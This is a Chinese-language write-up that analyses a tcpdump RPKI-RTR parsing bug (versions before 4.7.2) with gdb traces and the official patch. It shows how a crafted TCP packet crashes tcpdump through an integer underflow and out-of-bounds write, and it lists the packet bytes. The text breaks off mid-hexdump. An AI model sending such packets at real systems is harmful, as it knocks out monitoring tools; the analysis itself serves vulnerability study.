

Author:wnagzihxa1n
E-Mail:wnagzihxa1n@gmail.com
该漏洞影响所有小于4.7.2的发行版
我们先测试一下Poc的有效性
左边是目标机器，运行着4.5.1版本的tcpdump，右边开启了一个攻击机器，两个都是Linux下的，然后执行Poc即可

执行Poc即可发现服务端tcpdump崩溃，我们使用gdb调试分析崩溃点
下载以及编译参考
问题出在print-rpki-rtr.c的rpki_rtr_pdu_print()函数，所以我们重点关注这个函数
使用gdb调试启动tcpdump
wnagzihxain@toT0C:~$ sudo gdb tcpdump
设置参数，然后跑起来
gdb-peda$ set args -i ens33 -s 0 -n -v
另一个系统中执行Poc
wnagzihxain@toT0C:~$ sudo python Poc.py 192.168.121.134 192.168.121.133
发生错误自动断下
我们观察崩溃现场
gdb-peda$ c
Continuing.
tcpdump: listening on ens33, link-type EN10MB (Ethernet), capture size 65535 bytes
14:43:49.124041 IP (tos 0x0, ttl 255, id 54321, offset 0, flags [none], proto TCP (6), length 60)
192.168.121.134.255 > 192.168.121.133.323: Flags [S], cksum 0x23be (correct), seq 454:474, win 53270, length 20
RPKI-RTRv65, Error Report PDU (10), length: 8
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x3fffdf6b
EBX: 0x811ae3d ("Internal Error")
ECX: 0x4f ('O')
EDX: 0xbfffdf6c ("AAAA")
ESI: 0x811adc5 ("Error Report")
EDI: 0xb7a160a8 --> 0x4301ff00
EBP: 0xbfffdfd8 --> 0xbfffe018 --> 0xbfffe0f8 --> 0xbfffe148 --> 0xbfffe1c8 --> 0xbfffe1f8 (--> ...)
ESP: 0xbfffdf20 --> 0xbfffdfe0 --> 0xb7a160bc --> 0x1000a41
EIP: 0x80a1366 (<rpki_rtr_pdu_print+1034>: mov BYTE PTR [eax],0x0)
EFLAGS: 0x210213 (CARRY parity ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x80a135b <rpki_rtr_pdu_print+1023>: lea edx,[ebp-0x6c]
0x80a135e <rpki_rtr_pdu_print+1026>: mov eax,DWORD PTR [ebp-0x98]
0x80a1364 <rpki_rtr_pdu_print+1032>: add eax,edx
=> 0x80a1366 <rpki_rtr_pdu_print+1034>: mov BYTE PTR [eax],0x0
0x80a1369 <rpki_rtr_pdu_print+1037>: mov eax,DWORD PTR [ebp+0xc]
0x80a136c <rpki_rtr_pdu_print+1040>: add eax,0x2
0x80a136f <rpki_rtr_pdu_print+1043>: sub esp,0xc
0x80a1372 <rpki_rtr_pdu_print+1046>: push eax
[------------------------------------stack-------------------------------------]
0000| 0xbfffdf20 --> 0xbfffdfe0 --> 0xb7a160bc --> 0x1000a41
0004| 0xbfffdf24 --> 0xb7dcd940 --> 0x0
0008| 0xbfffdf28 --> 0x0
0012| 0xbfffdf2c --> 0xb7a160cc ("AAAA")
0016| 0xbfffdf30 --> 0xb7dce7b0 --> 0x8246350 --> 0x0
0020| 0xbfffdf34 --> 0x308
0024| 0xbfffdf38 --> 0x500
0028| 0xbfffdf3c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x080a1366 in rpki_rtr_pdu_print ()
gdb-peda$ x/x $eax
0x3fffdf6b: Cannot access memory at address 0x3fffdf6b
断下的原因是Segmentation fault，也就是段错误
而关键的指令是
=> 0x80a1366 <rpki_rtr_pdu_print+1034>: mov BYTE PTR [eax],0x0
我们对寄存器eax进行输出查看，发现是不可访问的内存地址，所以问题就清楚了，这里是写入了不可访问的内存导致的拒绝服务
gdb-peda$ x/x $eax
0x3fffdf6b: Cannot access memory at address 0x3fffdf6b
回溯函数调用栈
gdb-peda$ bt
#0 0x080a1366 in rpki_rtr_pdu_print ()
#1 0x080a14f1 in rpki_rtr_print ()
#2 0x080b8ccd in tcp_print ()
#3 0x08073511 in ip_print_demux ()
#4 0x08073e59 in ip_print ()
#5 0x0806abd9 in ethertype_print ()
#6 0x0806a8b2 in ether_print ()
#7 0x0806a951 in ether_if_print ()
#8 0x080c2c7f in print_packet ()
#9 0x080ef63e in pcap_handle_packet_mmap (handle=handle@entry=0x8235058, callback=callback@entry=0x80c2c13 <print_packet>, user=user@entry=0xbfffe46c " :#\b+\251\006\b\001", frame=0xb7a16030 "\240", tp_len=0x4a, tp_mac=0x56,
tp_snaplen=0x4a, tp_sec=0x5a531325, tp_usec=0x1e489, tp_vlan_tci_valid=0x0, tp_vlan_tci=0x0) at ./pcap-linux.c:4264
#10 0x080f3884 in pcap_read_linux_mmap_v3 (handle=0x8235058, max_packets=0xffffffff, callback=0x80c2c13 <print_packet>, user=0xbfffe46c " :#\b+\251\006\b\001") at ./pcap-linux.c:4429
#11 0x080d9db9 in pcap_loop (p=0x8235058, cnt=<optimized out>, callback=0x80c2c13 <print_packet>, user=0xbfffe46c " :#\b+\251\006\b\001") at ./pcap.c:856
#12 0x080c2229 in main ()
#13 0xb7c34637 in __libc_start_main (main=0x80c083a <main>, argc=0x7, argv=0xbffff654, init=0x80f7300 <__libc_csu_init>, fini=0x80f7360 <__libc_csu_fini>, rtld_fini=0xb7fea8a0 <_dl_fini>, stack_end=0xbffff64c)
at ../csu/libc-start.c:291
#14 0x0804a3d3 in _start ()
确认是rpki_rtr_pdu_print()函数
我们分析源码，发现该函数有两个参数，第一个是一个结构体指针，第二个是固定值8
static void rpki_rtr_pdu_print (const u_char *tptr, u_int indent)
父函数调用如下
rpki_rtr_pdu_print(tptr, 8);
观察调用时的参数数据
[----------------------------------registers-----------------------------------]
EAX: 0x14
EBX: 0x8236078 --> 0x353532 ('255')
ECX: 0x7ffffff4
EDX: 0xfffffff8
ESI: 0x8236008 ("192.168.121.133")
EDI: 0xb7a171b8 --> 0x4301ff00
EBP: 0xbfffe018 --> 0xbfffe0f8 --> 0xbfffe148 --> 0xbfffe1c8 --> 0xbfffe1f8 --> 0xbfffe258 (--> ...)
ESP: 0xbfffdfe0 --> 0xb7a171cc --> 0x1000a41
EIP: 0x80a14ec (<rpki_rtr_print+239>: call 0x80a0f5c <rpki_rtr_pdu_print>)
EFLAGS: 0x200296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x80a14e4 <rpki_rtr_print+231>: sub esp,0x8
0x80a14e7 <rpki_rtr_print+234>: push 0x8
0x80a14e9 <rpki_rtr_print+236>: push DWORD PTR [ebp-0x18]
=> 0x80a14ec <rpki_rtr_print+239>: call 0x80a0f5c <rpki_rtr_pdu_print>
0x80a14f1 <rpki_rtr_print+244>: add esp,0x10
0x80a14f4 <rpki_rtr_print+247>: mov eax,DWORD PTR [ebp-0xc]
0x80a14f7 <rpki_rtr_print+250>: sub DWORD PTR [ebp-0x1c],eax
0x80a14fa <rpki_rtr_print+253>: mov eax,DWORD PTR [ebp-0xc]
Guessed arguments:
arg[0]: 0xb7a171cc --> 0x1000a41
arg[1]: 0x8
[------------------------------------stack-------------------------------------]
0000| 0xbfffdfe0 --> 0xb7a171cc --> 0x1000a41
0004| 0xbfffdfe4 --> 0x8
0008| 0xbfffdfe8 --> 0xb7c5e0cb (<_IO_vfprintf_internal+11>: add ebx,0x16ff35)
0012| 0xbfffdfec --> 0x8236078 --> 0x353532 ('255')
0016| 0xbfffdff0 --> 0x8236008 ("192.168.121.133")
0020| 0xbfffdff4 --> 0xb7a171b8 --> 0x4301ff00
0024| 0xbfffdff8 --> 0xbfffe0f8 --> 0xbfffe148 --> 0xbfffe1c8 --> 0xbfffe1f8 --> 0xbfffe258 (--> ...)
0028| 0xbfffdffc --> 0x14
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080a14ec in rpki_rtr_print ()
第一个参数指向的数据0x01000a41
我们来看Poc输出的Socket数据
\x45\x00\x00\x00
\xd4\x31\x00\x00
\xff\x06\x00\x00
\xc0\xa8\x79\x86
\xc0\xa8\x79\x85
\x00\xff\x01\x43
\x00\x00\x01\xc6
\x00\x00\x00\x00
\x50\x02\xd0\x16
\x23\xbe\x00\x00
(指向这里=>)\x41\x0a\x00\x01
\x00\x00\x00\x08
\x00\x00\x00\x00
\x7f\xff\xff\xff
\x41\x41\x41\x41
我们按照传进去的指针开始跟执行流程，获取结构体指针后开始解析数据
pdu_header = (rpki_rtr_pdu *)tptr;
pdu_type = pdu_header->pdu_type;
pdu_len = EXTRACT_32BITS(pdu_header->length);
hexdump = FALSE;
该结构体如下
typedef struct rpki_rtr_pdu_ {
u_char version; /* Version number */
u_char pdu_type; /* PDU type */
union {
u_char session_id[2]; /* Session id */
u_char error_code[2]; /* Error code */
} u;
u_char length[4];
} rpki_rtr_pdu;
先解析出pdu_type，这个值是0x0a，解析length成员的值为0x08
然后进入一个switch，判断条件是pdu_type，这个值是0x0a
根据宏定义判断
#define RPKI_RTR_ERROR_REPORT_PDU 10
进入如下分支，这个分支的函数需要好好分析下，找到关键的崩溃点
case RPKI_RTR_ERROR_REPORT_PDU:
{
rpki_rtr_pdu_error_report *pdu;
u_int encapsulated_pdu_length, text_length, tlen, error_code;
u_char buf[80];
pdu = (rpki_rtr_pdu_error_report *)tptr;
encapsulated_pdu_length = EXTRACT_32BITS(pdu->encapsulated_pdu_length);
tlen = pdu_len;
error_code = EXTRACT_16BITS(pdu->pdu_header.u.error_code);
printf("%sError code: %s (%u), Encapsulated PDU length: %u",
indent_string(indent+2),
tok2str(rpki_rtr_error_codes, "Unknown", error_code),
error_code, encapsulated_pdu_length);
tptr += sizeof(*pdu);
tlen -= sizeof(*pdu);
/*
* Recurse if there is an encapsulated PDU.
*/
if (encapsulated_pdu_length &&
(encapsulated_pdu_length <= tlen)) {
printf("%s-----encapsulated PDU-----", indent_string(indent+4));
rpki_rtr_pdu_print(tptr, indent+2);
}
tptr += encapsulated_pdu_length;
tlen -= encapsulated_pdu_length;
/*
* Extract, trail-zero and print the Error message.
*/
text_length = 0;
if (tlen > 4) {
text_length = EXTRACT_32BITS(tptr);
tptr += 4;
tlen -= 4;
}
if (text_length && (text_length <= tlen )) {
memcpy(buf, tptr, MIN(sizeof(buf)-1, text_length));
buf[text_length] = '\0';
printf("%sError text: %s", indent_string(indent+2), buf);
}
}
break;
首先是重新获取结构体指针，该指针指向的数据和之前的tptr是一样的，再次解析一个长度字段encapsulated_pdu_length，该值为0x00
pdu = (rpki_rtr_pdu_error_report *)tptr;
encapsulated_pdu_length = EXTRACT_32BITS(pdu->encapsulated_pdu_length);
tlen = pdu_len;
此时几个代表着长度的变量
pdu_len = 0x08
encapsulated_pdu_length = 0x00
tlen = 0x08
跳过第一个结构体
tptr += sizeof(*pdu);
tlen -= sizeof(*pdu);
此处是关键，我们的tlen是0x08，而rpki_rtr_pdu_error_report结构体的长度为0x0c
[----------------------------------registers-----------------------------------]
EAX: 0x3e ('>')
EBX: 0x811ae3d ("Internal Error")
ECX: 0x7fffffc1
EDX: 0xb7dcf870 --> 0x0
ESI: 0x811adc5 ("Error Report")
EDI: 0xb7a360a8 --> 0x4301ff00
EBP: 0xbfffdfd8 --> 0xbfffe018 --> 0xbfffe0f8 --> 0xbfffe148 --> 0xbfffe1c8 --> 0xbfffe1f8 (--> ...)
ESP: 0xbfffdf20 --> 0xbfffe046 --> 0x60940200
EIP: 0x80a127e (<rpki_rtr_pdu_print+802>: sub DWORD PTR [ebp-0x94],0xc)
EFLAGS: 0x200292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x80a126f <rpki_rtr_pdu_print+787>: call 0x8049eb0 <printf@plt>
0x80a1274 <rpki_rtr_pdu_print+792>: add esp,0x20
0x80a1277 <rpki_rtr_pdu_print+795>: add DWORD PTR [ebp-0xac],0xc
=> 0x80a127e <rpki_rtr_pdu_print+802>: sub DWORD PTR [ebp-0x94],0xc
0x80a1285 <rpki_rtr_pdu_print+809>: cmp DWORD PTR [ebp-0x74],0x0
0x80a1289 <rpki_rtr_pdu_print+813>: je 0x80a12d1 <rpki_rtr_pdu_print+885>
0x80a128b <rpki_rtr_pdu_print+815>: mov eax,DWORD PTR [ebp-0x74]
0x80a128e <rpki_rtr_pdu_print+818>: cmp eax,DWORD PTR [ebp-0x94]
[------------------------------------stack-------------------------------------]
0000| 0xbfffdf20 --> 0xbfffe046 --> 0x60940200
0004| 0xbfffdf24 --> 0xb7dcd940 --> 0x0
0008| 0xbfffdf28 --> 0x0
0012| 0xbfffdf2c --> 0xb7a360c8 --> 0xffffff7f
0016| 0xbfffdf30 --> 0xbfffe04b --> 0xa360a8b7
0020| 0xbfffdf34 --> 0x0
0024| 0xbfffdf38 --> 0x0
0028| 0xbfffdf3c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080a127e in rpki_rtr_pdu_print ()
gdb-peda$ x/x $ebp-0x94
0xbfffdf44: 0x00000008
也就是说uint类型的数据，0x08 - 0x0c的结果如下
[----------------------------------registers-----------------------------------]
EAX: 0x3e ('>')
EBX: 0x811ae3d ("Internal Error")
ECX: 0x7fffffc1
EDX: 0xb7dcf870 --> 0x0
ESI: 0x811adc5 ("Error Report")
EDI: 0xb7a360a8 --> 0x4301ff00
EBP: 0xbfffdfd8 --> 0xbfffe018 --> 0xbfffe0f8 --> 0xbfffe148 --> 0xbfffe1c8 --> 0xbfffe1f8 (--> ...)
ESP: 0xbfffdf20 --> 0xbfffe046 --> 0x60940200
EIP: 0x80a1285 (<rpki_rtr_pdu_print+809>: cmp DWORD PTR [ebp-0x74],0x0)
EFLAGS: 0x200297 (CARRY PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x80a1274 <rpki_rtr_pdu_print+792>: add esp,0x20
0x80a1277 <rpki_rtr_pdu_print+795>: add DWORD PTR [ebp-0xac],0xc
0x80a127e <rpki_rtr_pdu_print+802>: sub DWORD PTR [ebp-0x94],0xc
=> 0x80a1285 <rpki_rtr_pdu_print+809>: cmp DWORD PTR [ebp-0x74],0x0
0x80a1289 <rpki_rtr_pdu_print+813>: je 0x80a12d1 <rpki_rtr_pdu_print+885>
0x80a128b <rpki_rtr_pdu_print+815>: mov eax,DWORD PTR [ebp-0x74]
0x80a128e <rpki_rtr_pdu_print+818>: cmp eax,DWORD PTR [ebp-0x94]
0x80a1294 <rpki_rtr_pdu_print+824>: ja 0x80a12d1 <rpki_rtr_pdu_print+885>
[------------------------------------stack-------------------------------------]
0000| 0xbfffdf20 --> 0xbfffe046 --> 0x60940200
0004| 0xbfffdf24 --> 0xb7dcd940 --> 0x0
0008| 0xbfffdf28 --> 0x0
0012| 0xbfffdf2c --> 0xb7a360c8 --> 0xffffff7f
0016| 0xbfffdf30 --> 0xbfffe04b --> 0xa360a8b7
0020| 0xbfffdf34 --> 0x0
0024| 0xbfffdf38 --> 0x0
0028| 0xbfffdf3c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080a1285 in rpki_rtr_pdu_print ()
gdb-peda$ x/x $ebp-0x94
0xbfffdf44: 0xfffffffc
此时就已经完成了攻击的铺垫过程，tlen此时为0xfffffffc
我们观察跳过了第一个结构体之后指向的数据，发现存储的指针指向的是0xffffff7f，在作者给出的Poc里，该字段的意思为overwrite out-of-bounds '\0', causing DoS
[----------------------------------registers-----------------------------------]
EAX: 0x3e ('>')
EBX: 0x811ae3d ("Internal Error")
ECX: 0x7fffffc1
EDX: 0xb7dcf870 --> 0x0
ESI: 0x811adc5 ("Error Report")
EDI: 0xb7a171b8 --> 0x4301ff00
EBP: 0xbfffdfd8 --> 0xbfffe018 --> 0xbfffe0f8 --> 0xbfffe148 --> 0xbfffe1c8 --> 0xbfffe1f8 (--> ...)
ESP: 0xbfffdf20 --> 0xbfffe046 --> 0x71a40200
EIP: 0x80a127e (<rpki_rtr_pdu_print+802>: sub DWORD PTR [ebp-0x94],0xc)
EFLAGS: 0x200296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x80a126f <rpki_rtr_pdu_print+787>: call 0x8049eb0 <printf@plt>
0x80a1274 <rpki_rtr_pdu_print+792>: add esp,0x20
0x80a1277 <rpki_rtr_pdu_print+795>: add DWORD PTR [ebp-0xac],0xc
=> 0x80a127e <rpki_rtr_pdu_print+802>: sub DWORD PTR [ebp-0x94],0xc
0x80a1285 <rpki_rtr_pdu_print+809>: cmp DWORD PTR [ebp-0x74],0x0
0x80a1289 <rpki_rtr_pdu_print+813>: je 0x80a12d1 <rpki_rtr_pdu_print+885>
0x80a128b <rpki_rtr_pdu_print+815>: mov eax,DWORD PTR [ebp-0x74]
0x80a128e <rpki_rtr_pdu_print+818>: cmp eax,DWORD PTR [ebp-0x94]
[------------------------------------stack-------------------------------------]
0000| 0xbfffdf20 --> 0xbfffe046 --> 0x71a40200
0004| 0xbfffdf24 --> 0xb7dcd940 --> 0x0
0008| 0xbfffdf28 --> 0x0
0012| 0xbfffdf2c --> 0xb7a171d8 --> 0xffffff7f
0016| 0xbfffdf30 --> 0xbfffe04b --> 0xa171b8b7
0020| 0xbfffdf34 --> 0xb7fe3f80 (<check_match+304>: add esp,0x10)
0024| 0xbfffdf38 --> 0xb7c2f2e5 ("GLIBC_2.0")
0028| 0xbfffdf3c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080a127e in rpki_rtr_pdu_print ()
gdb-peda$ x/x $ebp-0xac
0xbfffdf2c: 0xb7a171d8
gdb-peda$ x/x 0xb7a171d8
0xb7a171d8: 0xffffff7f
这个结构体在这里的长度是0x00，所以不用在意
/*
* Recurse if there is an encapsulated PDU.
*/
if (encapsulated_pdu_length &&
(encapsulated_pdu_length <= tlen)) {
printf("%s-----encapsulated PDU-----", indent_string(indent+4));
rpki_rtr_pdu_print(tptr, indent+2);
}
tptr += encapsulated_pdu_length;
tlen -= encapsulated_pdu_length;
tlen前面赋值为0x08，所以会执行if里的代码
/*
* Extract, trail-zero and print the Error message.
*/
text_length = 0;
if (tlen > 4) {
text_length = EXTRACT_32BITS(tptr);
tptr += 4;
tlen -= 4;
}
我们可以看到执行完后，text_length为0x7fffffff，这个值已经非常大了
[----------------------------------registers-----------------------------------]
EAX: 0x7fffffff
EBX: 0x811ae3d ("Internal Error")
ECX: 0x7fffffc1
EDX: 0xb7dcf870 --> 0x0
ESI: 0x811adc5 ("Error Report")
EDI: 0xb7a171b8 --> 0x4301ff00
EBP: 0xbfffdfd8 --> 0xbfffe018 --> 0xbfffe0f8 --> 0xbfffe148 --> 0xbfffe1c8 --> 0xbfffe1f8 (--> ...)
ESP: 0xbfffdf10 --> 0xb7a171d8 --> 0xffffff7f
EIP: 0x80a1304 (<rpki_rtr_pdu_print+936>: add esp,0x10)
EFLAGS: 0x200282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x80a12f6 <rpki_rtr_pdu_print+922>: sub esp,0xc
0x80a12f9 <rpki_rtr_pdu_print+925>: push DWORD PTR [ebp-0xac]
0x80a12ff <rpki_rtr_pdu_print+931>: call 0x80a0ebb <EXTRACT_32BITS>
=> 0x80a1304 <rpki_rtr_pdu_print+936>: add esp,0x10
0x80a1307 <rpki_rtr_pdu_print+939>: mov DWORD PTR [ebp-0x98],eax
0x80a130d <rpki_rtr_pdu_print+945>: add DWORD PTR [ebp-0xac],0x4
0x80a1314 <rpki_rtr_pdu_print+952>: sub DWORD PTR [ebp-0x94],0x4
0x80a131b <rpki_rtr_pdu_print+959>: cmp DWORD PTR [ebp-0x98],0x0
[------------------------------------stack-------------------------------------]
0000| 0xbfffdf10 --> 0xb7a171d8 --> 0xffffff7f
0004| 0xbfffdf14 --> 0x811af28 ("Unknown")
0008| 0xbfffdf18 --> 0x1
0012| 0xbfffdf1c --> 0xb7a171d0 --> 0x8000000
0016| 0xbfffdf20 --> 0xbfffe046 --> 0x71a40200
0020| 0xbfffdf24 --> 0xb7dcd940 --> 0x0
0024| 0xbfffdf28 --> 0x0
0028| 0xbfffdf2c --> 0xb7a171d8 --> 0xffffff7f
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080a1304 in rpki_rtr_pdu_print ()
跳过长度字段，指向message，\x41\x41\x41\x41为伪造的数据
[----------------------------------registers-----------------------------------]
EAX: 0x7fffffff
EBX: 0x811ae3d ("Internal Error")
ECX: 0x7fffffc1
EDX: 0xb7dcf870 --> 0x0
ESI: 0x811adc5 ("Error Report")
EDI: 0xb7a171b8 --> 0x4301ff00
EBP: 0xbfffdfd8 --> 0xbfffe018 --> 0xbfffe0f8 --> 0xbfffe148 --> 0xbfffe1c8 --> 0xbfffe1f8 (--> ...)
ESP: 0xbfffdf20 --> 0xbfffe046 --> 0x71a40200
EIP: 0x80a1314 (<rpki_rtr_pdu_print+952>: sub DWORD PTR [ebp-0x94],0x4)
EFLAGS: 0x200282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x80a1304 <rpki_rtr_pdu_print+936>: add esp,0x10
0x80a1307 <rpki_rtr_pdu_print+939>: mov DWORD PTR [ebp-0x98],eax
0x80a130d <rpki_rtr_pdu_print+945>: add DWORD PTR [ebp-0xac],0x4
=> 0x80a1314 <rpki_rtr_pdu_print+952>: sub DWORD PTR [ebp-0x94],0x4
0x80a131b <rpki_rtr_pdu_print+959>: cmp DWORD PTR [ebp-0x98],0x0
0x80a1322 <rpki_rtr_pdu_print+966>: je 0x80a13a3 <rpki_rtr_pdu_print+1095>
0x80a1324 <rpki_rtr_pdu_print+968>: mov eax,DWORD PTR [ebp-0x98]
0x80a132a <rpki_rtr_pdu_print+974>: cmp eax,DWORD PTR [ebp-0x94]
[------------------------------------stack-------------------------------------]
0000| 0xbfffdf20 --> 0xbfffe046 --> 0x71a40200
0004| 0xbfffdf24 --> 0xb7dcd940 --> 0x0
0008| 0xbfffdf28 --> 0x0
0012| 0xbfffdf2c --> 0xb7a171dc ("AAAA\220")
0016| 0xbfffdf30 --> 0xbfffe04b --> 0xa171b8b7
0020| 0xbfffdf34 --> 0xb7fe3f80 (<check_match+304>: add esp,0x10)
0024| 0xbfffdf38 --> 0xb7c2f2e5 ("GLIBC_2.0")
0028| 0xbfffdf3c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080a1314 in rpki_rtr_pdu_print ()
gdb-peda$ x/x $ebp-0xac
0xbfffdf2c: 0xb7a171dc
gdb-peda$ x/x 0xb7a171dc
0xb7a171dc: 0x41414141
最后到达关键的地方，text_length为0x7fffffff，虽然text_length很大，然而tlen此时更大
if (text_length && (text_length <= tlen )) {
memcpy(buf, tptr, MIN(sizeof(buf)-1, text_length));
buf[text_length] = '\0';
printf("%sError text: %s", indent_string(indent+2), buf);
}
妥妥的进入到if分支，首先是一个memcpy，这个函数不会造成崩溃，关键在于buf[text_length]，这个内存是不可访问的，所以当往这个地址写入\0的时候，就会因为写入不可访问的内存导致Crash
然后走到最后，向不可访问的内存写入数据，发生段错误
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x3fffdf6b
EBX: 0x811ae3d ("Internal Error")
ECX: 0x4f ('O')
EDX: 0xbfffdf6c ("AAAA\220")
ESI: 0x811adc5 ("Error Report")
EDI: 0xb7a171b8 --> 0x4301ff00
EBP: 0xbfffdfd8 --> 0xbfffe018 --> 0xbfffe0f8 --> 0xbfffe148 --> 0xbfffe1c8 --> 0xbfffe1f8 (--> ...)
ESP: 0xbfffdf20 --> 0xbfffe046 --> 0x71a40200
EIP: 0x80a1366 (<rpki_rtr_pdu_print+1034>: mov BYTE PTR [eax],0x0)
EFLAGS: 0x210213 (CARRY parity ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x80a135b <rpki_rtr_pdu_print+1023>: lea edx,[ebp-0x6c]
0x80a135e <rpki_rtr_pdu_print+1026>: mov eax,DWORD PTR [ebp-0x98]
0x80a1364 <rpki_rtr_pdu_print+1032>: add eax,edx
=> 0x80a1366 <rpki_rtr_pdu_print+1034>: mov BYTE PTR [eax],0x0
0x80a1369 <rpki_rtr_pdu_print+1037>: mov eax,DWORD PTR [ebp+0xc]
0x80a136c <rpki_rtr_pdu_print+1040>: add eax,0x2
0x80a136f <rpki_rtr_pdu_print+1043>: sub esp,0xc
0x80a1372 <rpki_rtr_pdu_print+1046>: push eax
[------------------------------------stack-------------------------------------]
0000| 0xbfffdf20 --> 0xbfffe046 --> 0x71a40200
0004| 0xbfffdf24 --> 0xb7dcd940 --> 0x0
0008| 0xbfffdf28 --> 0x0
0012| 0xbfffdf2c --> 0xb7a171dc ("AAAA\220")
0016| 0xbfffdf30 --> 0xbfffe04b --> 0xa171b8b7
0020| 0xbfffdf34 --> 0xb7fe3f80 (<check_match+304>: add esp,0x10)
0024| 0xbfffdf38 --> 0xb7c2f2e5 ("GLIBC_2.0")
0028| 0xbfffdf3c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x080a1366 in rpki_rtr_pdu_print ()
官方补丁
找到对应的补丁位置
diff --git a/print-rpki-rtr.c b/print-rpki-rtr.c
index 8679759..3733ba6 100644
--- a/print-rpki-rtr.c
+++ b/print-rpki-rtr.c
@@ -184,6 +184,7 @@ rpki_rtr_pdu_print (const u_char *tptr, u_int indent)
pdu_header = (rpki_rtr_pdu *)tptr;
pdu_type = pdu_header->pdu_type;
pdu_len = EXTRACT_32BITS(pdu_header->length);
+ TCHECK2(tptr, pdu_len);
hexdump = FALSE;
printf("%sRPKI-RTRv%u, %s PDU (%u), length: %u",
@@ -292,6 +293,7 @@ rpki_rtr_pdu_print (const u_char *tptr, u_int indent)
tptr += 4;
tlen -= 4;
}
+ printf("text_length: %u tlen %u\n", text_length, tlen);
if (text_length && (text_length <= tlen )) {
memcpy(buf, tptr, MIN(sizeof(buf)-1, text_length));
buf[text_length] = '\0';
@@ -312,6 +314,11 @@ rpki_rtr_pdu_print (const u_char *tptr, u_int indent)
if (vflag > 1 || (vflag && hexdump)) {
print_unknown_data(tptr,"\n\t ", pdu_len);
}
+ return;
+
+ trunc:
+ printf("|trunc");
+ return;
}
多了一个关于长度的校验
+ TCHECK2(tptr, pdu_len);
最后有一个问题，一开始我是在同一个系统中执行的Poc，没反应，然后我切换到Windows下执行，同样没反应，只是捕获到了一个数据帧而已，最后换的Linux执行Poc，这就很尴尬了，难道是Windows下发送的数据和Linux下是不一样的，带着好奇，探索一波
我们先捕获Linux的数据帧，要开着服务端，不然会一直发ARP包找服务端
0000 00 0c 29 07 15 e0 00 0c 29 25 f9 91 08 00 45 00
0010 00 3c d4 31 00 00 ff 06 73 2d c0 a8 79 86 c0 a8
0020 79 85 00 ff 01 43 00 00 01 c6 00 00 00 00 50 02
0030 d0 16 23 be 00 00 41 0a 00 01 00 00 00 08 00 00
0040 00 00 7f ff ff ff 41 41 41 41
Frame 3: 74 bytes on wire (592 bits), 74 bytes captured (592 bits) on interface 0
Interface id: 0 (ens33)
Encapsulation type: Ethernet (1)
Arrival Time: Jan 9, 2018 18:52:32.842651595 HKT
[Time shift for this packet: 0.000000000 seconds]
Epoch Time: 1515495152.842651595 seconds
[Time delta from previous captured frame: 0.165448096 seconds]
[Time delta from previous displayed frame: 0.165448096 seconds]
[Time since reference or first frame: 1.166104128 seconds]
Frame Number: 3
Frame Length: 74 bytes (592 bits)
Capture Length: 74 bytes (592 bits)
[Frame is marked: False]
[Frame is ignored: False]
[Protocols in frame: eth:ethertype:ip:tcp:rpkirtr]
[Coloring Rule Name: TCP SYN/FIN]
[Coloring Rule String: tcp.flags & 0x02 || tcp.flags.fin == 1]
Ethernet II, Src: Vmware_07:15:e0 (00:0c:29:07:15:e0), Dst: Vmware_c0:00:08 (00:50:56:c0:00:08)
Internet Protocol Version 4, Src: 192.168.121.133, Dst: 192.168.121.1
Transmission Control Protocol, Src Port: 255, Dst Port: 323, Seq: 0, Len: 20
RPKI-Router Protocol (Error Report)
[Malformed Packet: RPKI-Router Protocol]
然后捕获Windows下的数据帧
0000 00 0c 29 07 15 e0 00 50 56 c0 00 08 08 00 45 00
0010 00 50 39 52 00 00 80 ff 8c 85 c0 a8 79 01 c0 a8
